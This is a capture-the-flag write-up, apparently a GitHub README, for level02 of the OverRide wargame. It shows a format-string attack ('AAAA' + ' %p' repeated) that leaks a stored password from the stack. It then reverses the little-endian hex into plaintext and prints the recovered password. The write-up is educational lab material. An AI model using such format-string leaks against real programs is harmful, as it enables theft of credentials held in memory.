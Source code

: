 ## Project README: Finding flag02

When we decompile we can see that he open the file .pass and reat it into the ptr value.
Secondly he ask for a username and a password.
Then compare the password we gave with the actual password. If it's the same launch bin sh else exit.

### Analysis
we can see that there is a format string exploit to do if the password is not the same.
And we know that our password is in the stack.
So what we can do is printing the stack and then see our password.


### Progress

```Bash
level02@OverRide:~$ python -c 'print("AAAA" + " %p"*60)' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAA 0x7fffffffe500 (nil) 0x70 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025 (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

So the 2a equal * and "207025" is our payload : " %p".
Then we can search for a string that is 40 char long and have a \0 at the end.
We have this thing "0xfeff00" that looks like a null bite and before we have
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d that is exactly 40 char long. If we convert to str :
"unPR47hH" + "EAJ5as9Q" + "7zqCWNgX" + "5J5hnGXs" + "H3gPfK9M". But actually we want the reverse of this because of little endian.

let's try this :
```sh
python -c 'print("unPR47hH"[::-1] + "EAJ5as9Q"[::-1] + "7zqCWNgX"[::-1] + "5J5hnGXs"[::-1] + "H3gPfK9M"[::-1])'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```

ET VOILA we have our flag.
